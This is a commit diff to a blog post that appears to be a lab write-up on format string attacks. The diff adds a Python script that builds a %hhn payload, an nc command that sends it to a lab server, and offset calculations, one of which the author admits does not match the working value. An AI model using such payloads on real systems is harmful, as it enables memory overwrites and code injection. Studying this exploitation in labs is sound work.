

Before and after one commit to iukadike/blog, a Jekyll site: the page built from _posts/2023-09-10-format-string-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 8890 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 9770 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update content

````diff
--- a/_posts/2023-09-10-format-string-attack.md
+++ b/_posts/2023-09-10-format-string-attack.md
@@ -169,6 +169,7 @@ echo %s | nc -w5 10.9.0.5 9090
 
 We can tell that the format program has crashed because it did not print out "Returned properly" and a few smiley faces.
 
+
 <br>
 
 ### Printing Out the Server Program’s Memory
@@ -244,6 +245,7 @@ cat badfile | nc -w2 10.9.0.5 9090
 ```
 
 **image**
+
 
 <br>
 
@@ -421,7 +423,7 @@ Our program is a 32-bit program so our address is a 4-byte address. Our machine
 - 0x080e5068 => 0xDD
 - 0x080e5069 => 0xCC
 - 0x080e506a => 0xBB
-- 0x080e506b => 0xBB
+- 0x080e506b => 0xAA
 
 The values written are cummulative, so when constructing our string, we have to start with the addresses that will store lower values.
 
@@ -431,15 +433,97 @@ For this task, I need to determine the total number of characters I would need t
 - 0xCC = 204
 - 0xDD = 221
 - The offset is 64, and will contain multiple format specifiers:
-  - we need one for the %hn% format specifier for the first address
+  - we need one for the %hhn% format specifier for the first address
   - we need one for the %x modulo precision modifier for the first address
   - we need 64 - 2 for the %x whole number precision modifier for the first address
-- The string will start with the address that will contain a lower value, appended by 4-bytes of random data to account for the %x specifier that will be used for the second address and finally the address that will contain a higher value. This is a total of 12-bytes.
-- The first address will store a lower value which is 0xAABB (43707). The first 12 bytes are where I would store the target variable's addresses.
-  - 43707 - 12 = 43695
+- The string will be built as: lower value address +  4-bytes of random data to account for the %x specifier that will be used for the second address + next higher value address + 4-bytes of random data to account for the %x specifier that will be used for the third address + next higher value address + 4-bytes of random data to account for the %x specifier that will be used for the fouth address + the highest value address. This is a total of 28-bytes.
+- The first address will store a lower value which is 0xAA (170). The first 28 bytes are where I would store the target variable's addresses.
+  - 170 - 28 = 142
 - The whole number %x precision modifier for the first address is:
-  - 43695 // 62 = 704
+  - 142 // 62 = 2
 - The modulo number %x precision modifier for the first address is:
-  - 43695 % 62 = 47
-- The second address will store a higher value which is 0xCCDD (52445). To determine the number of %x precision modifiers to use, we would subtract 0xAABB form 0xCCCC:
-  - 0xCCDD - 0xAABB = 52445 - 43707 = 8738
+  - 142 % 62 = 18
+- The second address will store a higher value which is 0xBB.
+  - 0xBB - 0xAA = 17
+- The third address will store a higher value which is 0xCC.
+  - 0xCC - 0xBB = 17
+- The last address will store a higher value which is 0xDD.
+  - 0xDD - 0xCC = 17
+
+<details>
+<summary>notes</summary>
+<div markdown="1">
+
+For some reasons not yet known to me, putting the value of 170 in 0x080e506b does not produce the intended outcome which is 0xaa. I find that I have to increase the value I put in 0x080e506b.
+After some tinkering, I was able to determine that putting the value of 285 in 0x080e506b produces 0xaa. Every other thing works as expected.
+
+I am yet to determine why this happens.
+</div></details>
+
+
+```python
+#!/usr/bin/python3
+import sys
+
+# Start input with the memory address that will store a lower value
+content = (0x080e506b).to_bytes(4,byteorder='little')
+
+# Append 4-bytes to account for writing to the second memory address
+content += ("@@@@").encode('latin-1')
+
+# Append the next memory address
+content += (0x080e506a).to_bytes(4,byteorder='little')
+
+# Append 4-bytes to account for writing to the third memory address
+content += ("@@@@").encode('latin-1')
+
+# Append the next memory address
+content += (0x080e5069).to_bytes(4,byteorder='little')
+
+# Append 4-bytes to account for writing to the fourth memory address
+content += ("@@@@").encode('latin-1')
+
+# Append the memory address that will store a highest value
+content += (0x080e5068).to_bytes(4,byteorder='little')
+
+# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
+content += ("%.2x" * 62).encode('latin-1')
+content += ("%.133x%hhn").encode('latin-1')
+
+# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
+content += ("%.17x%hhn").encode('latin-1')
+
+# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
+content += ("%.17x%hhn").encode('latin-1')
+
+# Append format specifiers to prevent the program from crashing, access 0x080e506b and overwrite it's content
+content += ("%.17x%hhn").encode('latin-1')
+
+# Append a newline
+content += ("\n").encode('latin-1')
+
+
+# Write the content to badfile
+with open('badfile', 'wb') as f:
+  print(f"writing {len(content)} bytes to badfile...")
+  f.write(content)
+```
+
+```bash
+python3 badfile.py
+cat badfile | nc -w2 10.9.0.5 9090
+```
+
+**image**
+
+
+<br>
+
+### Inject Malicious Code into the Server Program
+
+This task involves injecting a piece of malicious code, in its binary format, into the server’s memory, and then use the format string vulnerability
+to modify the return address field of a function, so when the function returns, it jumps to our injected code.
+
+The technique used for this task is similar to that in the previous task: they both modify a 4-byte number in the memory. The previous task modifies the target variable, while this task modifies the return
+address field of a function. Students need to figure out the address for the return-address field based on the
+information printed out by the server.
````
